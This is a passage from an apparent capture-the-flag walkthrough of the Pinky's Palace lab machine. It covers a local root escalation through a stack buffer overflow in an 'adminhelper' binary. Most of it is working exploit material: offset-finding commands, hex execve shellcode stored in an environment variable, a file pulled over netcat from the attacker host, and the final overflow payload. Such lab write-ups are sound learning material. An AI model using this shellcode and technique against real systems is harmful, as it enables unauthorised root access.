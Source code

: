 	```
	- Buffer Overfow Binary
4. Determine if ASLR is disabled
	```
	pinky@pinkys-palace:~$ cat /proc/sys/kernel/randomize_va_space
	0
	```
5. Transfer `adminhelper` to kali
6. Determine buffer size to crash `adminhelper`
	- Buffer Size: 100
	![](Pasted%20image%2020220212212236.png)
7.  Create pattern
	```
	pattern_create 100
	AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
	
	run $(python -c 'print "AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL"')
	```
	![](Pasted%20image%2020220212212534.png)
		![](Pasted%20image%2020220212212505.png)
8. Determine EIP offset
	```
	pattern_offset IAAeAA4AAJAAfAA5AAKAAgAA6AAL
	```
	![](Pasted%20image%2020220212212633.png)
	![](Pasted%20image%2020220212213753.png)
	- RIP offset: 72
9. Test RIP offset w/ Bs
	```
	run $(python -c 'print "A" * 72 + "B" * 6')
	```
	![](Pasted%20image%2020220212215638.png)
7. Since ASLR is disabled, we can store our shellcode into an environment variable.
8. After storing shellcode into an environment variable, we can use [`getenvaddr.c`](https://gist.githubusercontent.com/superkojiman/6a6e44db390d6dfc329a/raw/892300db69d14f08af5205e35dede43391d56c70/getenvaddr) to determine the environment variable address
9. Continue exploit on target 
10. Store our [shellcode](http://shell-storm.org/shellcode/files/shellcode-806.php) into an environment variable
	```
	export shellcode=$(python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"')
	```
	![](Pasted%20image%2020220212220956.png)
10. Determine the environment variable address w/ `getenv.c`
	```
	pinky@pinkys-palace:~$ nc 192.168.110.4 4444 > getenvaddr.c
	pinky@pinkys-palace:~$ gcc getenvaddr.c -o getenvaddr
	pinky@pinkys-palace:~$ ./getenvaddr shellcode ./adminhelper 
	shellcode will be at 0x7fffffffeeb9
	pinky@pinkys-palace:~$ 
	```
	- Return Address: `0x7fffffffeeb9`
	- Little Endian: `\xb9\xee\xff\xff\xff\x7f`
11. Obtain root shell
	```
	pinky@pinkys-palace:~$ ./adminhelper $(python -c 'print "A" * 72 + "\xb9\xee\xff\xff\xff\x7f"')
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����